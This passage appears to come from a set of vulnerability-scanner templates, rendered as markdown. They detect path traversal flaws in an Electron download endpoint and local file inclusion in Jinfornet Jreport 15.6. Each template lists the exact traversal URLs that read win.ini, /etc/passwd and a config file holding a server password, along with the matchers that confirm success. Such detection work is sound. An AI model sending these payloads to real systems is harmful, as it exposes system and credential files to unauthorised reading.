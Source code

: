 ## Requests

- Method - GET

### URL

- {{BaseURL}}/Electron/download/windows/..\..\..\Http\webroot\config.json
- {{BaseURL}}/Electron/download/windows/\windows\win.ini

### Matchers

**Type - word**

- part - body
- words
  1. CfgServerPassword
  2. CfgServerAppName
- condition - and

**Type - word**

- words
  1. bit app support
  2. fonts
  3. extensions
- condition - and

---

# Jinfornet Jreport 15.6 - Local File Inclusion

## Description

- Jinfornet Jreport 15.6 is vulnerable to local file incluion via the Jreport Help function in the SendFileServlet. Exploitaiton allows remote unauthenticated users to view any files on the Operating System with Application services user permission. This vulnerability affects Windows and Unix operating systems.
- severity - high
- tags - jreport,jinfornet,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/jreport/sendfile/help/../../../../../../../../../../../../../../etc/passwd

### Matchers

**Type - regex**
